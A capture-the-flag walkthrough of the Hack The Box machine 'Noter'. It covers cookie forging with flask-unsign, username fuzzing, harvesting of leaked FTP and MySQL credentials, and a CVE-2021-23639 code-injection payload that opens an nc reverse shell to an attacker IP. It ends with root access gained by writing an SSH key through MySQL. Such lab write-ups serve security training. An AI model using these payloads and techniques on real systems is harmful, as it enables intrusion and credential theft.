 # [Noter](https://app.hackthebox.com/machines/noter)

```bash
nmap -p-  --min-rate 10000 10.10.11.160 -Pn 
```

![alt text](img/image.png)

After detection of open ports, let's do greater nmap scan for these ports.

```bash
nmap -A -sC -sV -p21,22,5000 10.10.11.160 -Pn
```

![alt text](img/image-1.png)



Let's look at web application for port `5000`.

![alt text](img/image-2.png)


Let's create account and try to understand dashboard page's working principle.

![alt text](img/image-3.png)


I looked at my cookie on HTTP request headers.

![alt text](img/image-4.png)


As this is `Python` application, let's try to decode this cookie via `flask-unsign` tool.

```bash
flask-unsign --decode --cookie '{cookie}'
```

![alt text](img/image-5.png)


Let's try to find `secret` value by brute-forcing via using `rockyou.txt` wordlist.

```bash
flask-unsign --unsign --cookie "{secret}" -w /usr/share/wordlists/rockyou.txt --no-literal-eval 
```

![alt text](img/image-6.png)


Let's try to encode `Flask` cookie via `admin` user.

```bash
flask-unsign --sign --cookie "{'logged_in': True, 'username': 'admin'}" --secret 'secret123'
```

![alt text](img/image-7.png)


But it doesn't work as because there's no `admin` user.

Let's `fuzz` possible usernames.

```bash
wfuzz -u http://10.10.11.160:5000/login -d "username=FUZZ&password=junkpassword" -w /usr/share/seclists/Usernames/Names/names.txt --hs "Invalid credentials"
```

![alt text](img/image-8.png)

From this result, I see that `blue` user is possible, let's create session cookie for this user.
```bash
flask-unsign --sign --cookie "{'logged_in': True, 'username': 'blue'}" --secret 'secret123'
```

![alt text](img/image-9.png)

While we replace this session cookie, I already on `Dashboard` of `blue` user.

![alt text](img/image-10.png)


I found such a leak which contains `FTP` credentials.

![alt text](img/image-11.png)


blue: blue@Noter!


Let's connect into `FTP`.

![alt text](img/image-12.png)


I get `policy.pdf` file and read content of this.

![alt text](img/image-13.png)


So due to this `Password Creation`, I can guess `ftp_admin` credentials.


ftp_admin: ftp_admin@Noter!


Let's connect into `FTP` via this credentials.

![alt text](img/image-14.png)


I get two backup files which have `.zip` extension.

I find `hard-coded` credentials from `app.py` file.

![alt text](img/image-15.png)


root: Nildogg36


On `misc` directory, I find a script called `md-to-pdf.js` file which uses `mdToPdf` library, I look at the version of this library on `package-lock.json` file.

![alt text](img/image-16.png)


I searched publicly known exploit for this library and find `Code Injection` vulnerability whose [CVE-2021-23639](https://github.com/advisories/GHSA-x949-7cm6-fm6p).


Let's run payload to get reverse shell. I add this payload into `Export directory from cloud` feature on `/export_note_remote` endpoint.

```bash
---js\n((require("child_process")).execSync("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.18 1337 >/tmp/f"))\n---RCE
```

I also open http.server to serve this exploit file.
```bash
python3 -m http.server --bind 10.10.14.18 8080
```

![alt text](img/image-17.png)


I submit this HTTP url to get exploit file from my http.server.

![alt text](img/image-18.png)


Hola! I got reverse shell from port `1337`.

![alt text](img/image-19.png)


Let's make interactive shell.
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
Ctrl+Z
stty raw -echo;fg
export TERM=xterm
export SHELL=bash
```


![alt text](img/image-20.png)


user.txt

![alt text](img/image-21.png)



For `Privilege Escalation`, I will try to use credentials which I grabbed from `.zip` file on FTP for mysql service.


root: Nildogg36


Let's check this credentials work or not.
```bash
mysql -h 127.0.0.1 -u root -p
```

![alt text](img/image-22.png)


As we are root user, we can write data into files.

So,for `Privilege Escalation`, I just add my public key into `root` user's `authorized_keys` file via `MySQL` query.

```bash
select "ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIFNO12UEKYlk6zS+SIpXCvvW7+vf3Jx89Vaw5S9pdj7U root@kali" into outfile "/root/.ssh/authorized_keys2";
```


![alt text](img/image-23.png)


**Note:** This doesn't work for `authorized_keys` file, that's why I added `2` to end of file name.

Let's connect into machine via private key of attacker user by using `ssh` command.

```bash
ssh -i /root/.ssh/id_ed25519 root@10.10.11.160
```

root.txt

![alt text](img/image-24.png)